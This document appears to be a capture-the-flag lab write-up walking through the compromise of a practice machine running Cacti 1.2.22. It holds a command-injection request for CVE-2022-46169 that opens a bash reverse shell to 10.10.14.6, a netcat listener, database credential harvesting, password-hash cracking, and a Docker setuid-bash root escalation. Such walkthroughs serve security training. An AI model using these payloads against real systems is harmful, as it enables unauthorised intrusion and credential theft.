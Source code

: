 ## 🛰️ Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.211
nmap -p 22,80 -sCV 10.10.11.211
```

### Web Service
- Found Cacti login page on port 80.
- Version: **Cacti 1.2.22** (footer).
- Default creds don’t work.
- Possible CVE: **CVE-2022-46169** (unauth RCE via `poller_id` injection).

---

## 💥 Exploitation (Initial Shell)

### Auth Bypass + Command Injection (Manual)
```http
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=$(bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1')
Header: X-Forwarded-For: 127.0.0.1
```

### Reverse Shell
```bash
nc -lvnp 443
```

Result: Shell as `www-data` inside **Docker container**.

---

## 🧠 Enumeration (Container)

- Hostname: 50bca5e748b0 → Docker container.
- Found MySQL creds in `/var/www/html/include/config.php`:
  ```text
  DB Host: db
  DB User: root
  DB Pass: root
  ```

### MySQL Access
```bash
mysql -h db -u root -proot cacti
```

### Users Table
```sql
SELECT username, password FROM user_auth;
```

- `marcus:$2y$10$vcrYth5YcCLlZaPD...`
- Cracked with `john` → Password: **funkymonkey**

---

## 📥 Shell as Marcus (Host)

```bash
sshpass -p 'funkymonkey' ssh marcus@10.10.11.211
```

---

## 🧨 Privilege Escalation (Root)

### CVEs Exploited:
- **CVE-2021-41091**
- **CVE-2021-41103**

### Docker Leak Exploitation
```bash
# From host:
ls /var/lib/docker/overlay2/<hash>/merged

# From container (as root):
cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
```

### Host Escalation
```bash
/var/lib/docker/overlay2/<hash>/merged/tmp/0xdf -p
```

→ Result: Root shell on host.

---

## 🏁 Flags

```bash
# User
cat /home/marcus/user.txt

# Root
cat /root/root.txt
```
